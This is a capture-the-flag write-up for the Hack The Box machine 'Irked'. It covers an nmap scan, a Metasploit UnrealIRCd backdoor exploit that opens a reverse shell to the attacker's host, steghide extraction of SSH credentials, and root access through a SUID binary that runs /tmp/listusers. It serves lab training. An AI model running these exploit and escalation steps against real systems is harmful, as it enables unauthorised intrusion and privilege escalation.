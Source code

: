 ```yaml
---
title: Irked - Hack The Box
excerpt: "Irked is an easy box running a backdoored UnrealIRC installation. I used a Metasploit module to get a shell then ran `steghide` to obtain the SSH credentials for the low privileged user then got root by exploiting a vulnerable SUID binary."
date: 2019-04-27
image: /assets/images/htb-writeup-irked/irked_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - ctf
  - stego
  - cve
  - metasploit
  - suid
---
```



Irked is an easy box running a backdoored UnrealIRC installation. I used a Metasploit module to get a shell then ran `steghide` to obtain the SSH credentials for the low privileged user then got root by exploiting a vulnerable SUID binary.

## Tools/Exploits/CVEs used

- steghide
- metasploit

## Summary

- UnrealIRCd MSF exploit for initial foothold
- steghide encoded file containing password for user
- SUID binary for priv esc

### Nmap

Aside from the typical Apache and OpenSSH services, I noticed that UnrealIRCd is installed.

```
# nmap -p- -sC -sV 10.10.10.117
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-17 14:02 EST
Nmap scan report for 10.10.10.117
Host is up (0.019s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33436/udp  status
|_  100024  1          50397/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
50397/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Webpage

The main page just has a picture and a note about IRC.

![](/assets/images/htb-writeup-irked/web.png)

### UnrealIRCd exploitation

The box is running UnrealIRCd and searchsploit shows there's an MSF exploit for it:
```
root@ragingunicorn:~/Downloads# searchsploit unrealirc
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)
```

Getting a shell with Metasploit is easy:
```
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.117     yes       The target address range or CIDR identifier
   RPORT   8067             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.23      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.23:4444 
[*] 10.10.10.117:8067 - Connected to 10.10.10.117:8067...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:8067 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo O1zcz5ML2uK8OjPk;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "O1zcz5ML2uK8OjPk\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.117:58328) at 2018-11-17 14:08:40 -0500
```

I have a shell as user `ircd`:
```
python -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

The `djmardov` user home directroy has a `.backup` file that contains the password for some stego encoded file:
```
djmardov@irked:~/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
djmardov@irked:~/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Password: `UPupDOWNdownLRlrBAbaSSss`

Since the note mentionned stego and this box is rated as easy, I guessed that it would be an off-the-shelf tool like `steghide` and not some custom obfuscation. The hidden file is found in the `irked.jpg` image from the main page and the steg doesn't use any passphrase.
```
root@ragingunicorn:~/Downloads# steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".
root@ragingunicorn:~/Downloads# 
root@ragingunicorn:~/Downloads# cat pass.txt
Kab6h+m+bbp2J:HG
```

djmardov's password is: `Kab6h+m+bbp2J:HG`

I can SSH in and get the user flag:

```console
djmardov@irked:~/Documents$ cat user.txt
cat user.txt
4a66a7...
```

### Priv esc

I found a suspicious SUID file: `/usr/bin/viewuser`

```console
djmardov@irked:~$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
```

When I execute the file, I see it runs `/tmp/listusers`

```
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-17 13:54 (:0)
djmardov pts/1        2018-11-17 14:19 (10.10.14.23)
sh: 1: /tmp/listusers: not found
```

Since it's a running as root and I have write access to `tmp` I can just copy `/bin/sh` to `/tmp/listusers` and gain root

```console
djmardov@irked:~$ cp /bin/sh /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2018-11-17 13:54 (:0)
djmardov pts/1        2018-11-17 14:19 (10.10.14.23)
# cd /root
# cat root.txt
8d8e9e...
```